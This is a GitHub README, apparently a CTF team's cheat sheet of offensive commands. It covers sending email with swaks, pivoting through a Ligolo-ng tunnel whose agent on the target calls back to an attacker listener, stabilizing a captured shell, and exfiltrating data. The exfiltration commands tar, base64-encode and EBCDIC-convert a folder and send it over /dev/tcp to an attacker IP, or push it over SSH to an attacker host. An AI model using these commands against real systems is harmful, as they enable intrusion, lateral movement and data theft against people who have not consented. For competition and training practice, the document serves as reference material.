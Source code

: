 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
- [Stabilizing Linux shell](#stabilizingLinuxShell)
- [Sliver](Sliver.md)
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


## Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

## Exfiltrating Data
### via TCP socket, ebcdic and base64
On kali:
```
nc -nlvp 80 > datafolder.tmp
```
On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### via SSH
On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
On kali:
```
cd /tmp/datafolder
```
